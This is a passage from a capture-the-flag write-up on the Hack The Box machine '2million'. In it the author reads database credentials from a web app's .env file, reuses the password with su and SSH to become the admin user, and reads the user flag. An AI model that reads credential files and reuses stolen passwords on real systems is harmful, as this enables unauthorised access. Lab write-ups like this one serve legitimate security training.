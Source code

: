 I poke around a few things but right at the top we see a .env file, usually used for environment variables and credentials. If we read that file we do appear to get a password for an admin account on htb_prod. 
```console
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

### DB or not DB - Admin User and Flag
From here I went down another rabbit hole I did not document of trying to connect to the database htb_prod and looking at the tables. I was able to connect but I couldn't view the tables or maybe I am just not good at SQL stuff. But since I could get to the DB from admin, it was likely the admin account did not just exist in the database. <br><br>
I try to switch to that user and I am in!
```console
www-data@2million:/html$ su -l admin
Password:
To run a command as administrator (usr "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$
```

Now we can poke around over here, and we see that there is a user.txt file. Let's get our user flag!
```console
admin@2million:~$ ls
user.txt
admin@2million:~$ cat user.txt
f55**************************
```

--------------------------------------------------------------
# System Time
I left off after the user stuff so we are coming back in with fresh eyes. Let's try and ssh into the machine using the admin username/pass and see if we can get in:
```console
toastydz@parrot$ ssh admin@2million.htb
admin@2million.htb's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jul 28 06:26:22 PM UTC 2023

  System load:  0.1005859375      Processes:             217
  Usage of /:   73.1% of 4.82GB   Users logged in:       0
  Memory usage: 8%                IPv4 address for eth0: 10.10.11.221
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

```